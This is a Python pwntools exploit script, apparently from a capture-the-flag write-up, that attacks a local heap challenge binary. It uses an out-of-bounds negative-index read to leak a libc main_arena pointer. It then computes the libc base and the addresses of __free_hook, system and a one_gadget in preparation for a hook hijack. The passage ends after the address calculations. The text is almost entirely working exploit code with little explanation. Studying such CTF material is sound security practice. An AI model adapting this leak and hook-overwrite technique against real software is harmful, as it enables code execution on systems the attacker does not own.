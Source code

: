 ```python
    choice(3)
    sc.recvuntil(b"index: ")
    sc.sendline(str(idx).encode())
    sc.recvuntil(b"value: ")
    sc.sendline(str(v).encode())


def load(idx: int) -> int:
    choice(4)
    sc.recvuntil(b"index: ")
    sc.sendline(str(idx).encode())
    sc.recvuntil(b"value: ")
    v = int(sc.recvline())

    return v


# vectorのポインタごと抹消されるっぽい
def wipe():
    global cnt
    choice(5)
    cnt = 0


def attach_wait():
    input("[+] Attach Waitng...")
    print("[+] done")

DEBUG = False
if len(sys.argv) > 1 and sys.argv[1] == "-d":
    DEBUG = True


binary_name = "./chall"
elf = ELF(binary_name)

if DEBUG:
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.31.so")
    arena_offset = 0x7f1afbf82b80 - 0x7f1afbd97000
else:
    libc = ELF("./libc.so.6")
    arena_offset = 0x7f4ccca01b80 - 0x7f4ccc816000


sc = remote("localhost", 13337)
# sc = process(["./chall"])

for i in range(0x210):
    push(i)

v1 = load(-0x204)
v2 = load(-0x204+1)

libc_leak = (v2 << 32) + v1
libc_arena = libc_leak - 96
libc_addr = libc_arena - arena_offset
print(f"[+] leak: {libc_addr:x}")

free_hook_addr = libc_addr + libc.symbols["__free_hook"]
system_addr = libc_addr + libc.symbols["system"]
one_gadget_addr = libc_addr + 0xe6e73

print(f"[+] __free_hook: {hex(free_hook_addr)}")
```